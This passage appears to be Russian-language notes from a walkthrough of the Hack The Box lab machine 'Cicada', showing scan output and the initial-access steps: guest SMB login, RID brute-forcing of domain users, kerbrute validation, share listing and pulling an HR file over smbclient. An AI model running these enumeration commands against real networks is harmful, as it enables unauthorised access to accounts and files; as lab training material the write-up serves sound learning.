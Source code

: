 ```
|   DNS_Tree_Name: cicada.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-03T16:56:56+00:00
|_ssl-date: 2024-11-03T16:57:32+00:00; +7h00m00s from scanner time.
5985/tcp  open  tcpwrapped
50555/tcp open  tcpwrapped
```

#### Получение первоначального доступа

Проверка активной гостевой учетной записи
```bash
nxc smb 10.10.11.35 -u guest -p ''
```
![[Pasted image 20241103185306.png]]

Получить информацию об объектах домена
```bash
nxc smb 10.10.11.35 -u guest -p '' --rid-brute
```
![[Pasted image 20241103185446.png]]

users.txt
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Валидация найденных учетных записей
```
kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt
```
![[Pasted image 20241103191258.png]]

Поиск доступных ресурсов
```bash
smbmap -u "guest" -p "" -P 445 -H CICADA-DC.cicada.htb
```
![[Pasted image 20241103194434.png]]

Подключение к шаре
```bash
smbclient //10.10.11.35/HR -U guest
```
![[Pasted image 20241103195936.png]]

Получение найденного текстового файла
```bash
smb: \> get "Notice from HR.txt"
```
![[Pasted image 20241103200028.png]]
